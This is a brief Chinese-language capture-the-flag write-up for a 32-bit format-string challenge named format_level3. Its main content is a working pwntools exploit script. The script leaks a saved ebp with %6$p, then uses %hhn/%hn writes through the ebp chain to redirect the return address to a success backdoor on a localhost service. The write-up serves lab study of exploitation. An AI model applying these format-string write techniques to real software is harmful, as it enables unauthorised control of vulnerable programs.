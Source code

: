 # format level3

## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 逆向

和level2类似，存在后门，但是输入的str放到了栈上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
